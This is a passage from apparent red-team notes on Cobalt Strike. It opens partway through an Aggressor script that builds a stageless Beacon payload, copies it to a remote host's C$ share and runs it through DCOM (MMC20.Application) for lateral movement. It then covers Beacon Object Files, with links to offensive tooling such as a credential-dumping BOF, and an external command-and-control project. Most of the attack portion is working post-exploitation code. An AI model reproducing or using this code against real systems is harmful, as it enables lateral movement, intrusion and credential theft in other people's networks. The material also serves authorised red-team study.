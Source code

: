 ```
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

### Beacon Object Files
- Beacon Object Files (BOFs) are a post-ex capability that allows for code execution inside the Beacon host process.
- BOFs are essentially tiny COFF objects (written in C or C++) on which Beacon acts as a linker and loader. 
- Download https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/beacon.h
- Usefull BOFs:
  - https://github.com/WKL-Sec/HiddenDesktop
  - https://github.com/trustedsec/CS-Situational-Awareness-BOF
  - https://github.com/CCob/BOF.NET
  - https://github.com/helpsystems/nanodump
  - https://github.com/outflanknl/InlineWhispers
  - https://github.com/RalfHacker/Kerbeus-BOF

### External C2
- https://github.com/RedSiege/GraphStrike?tab=readme-ov-file